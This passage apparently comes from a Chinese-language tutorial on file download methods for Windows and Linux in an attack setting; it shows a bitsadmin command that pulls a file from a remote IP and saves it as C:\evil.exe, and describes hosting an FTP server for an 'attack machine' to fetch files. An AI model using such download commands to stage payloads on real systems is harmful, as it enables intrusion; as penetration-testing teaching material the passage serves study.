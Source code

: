 ##### **实际应用**：

```
bitsadmin /transfer n http://192.168.10.11/eval.txt C:\evil.exe
```

![bitsadmin-1](Windows&Linux常见文件下载方法/bitsadmin-1.png)



#### ***FTP服务（Windows/Linux）：***

#### FTP(File Transfer Protocol，文件传输协议)是TCP/IP 协议组中的协议之一。FTP协议包括两个组成部分，其一为FTP服务器，其二为FTP客户端，其中FTP服务器用来存储文件，用户可以使用FTP客户端通过FTP协议访问位于FTP服务器上的资源。

##### 利用思路，先在远程服务器上起一个FTP服务，然后攻击机上去连接下载即可：

![ftp-s](Windows&Linux常见文件下载方法/ftp-s.png)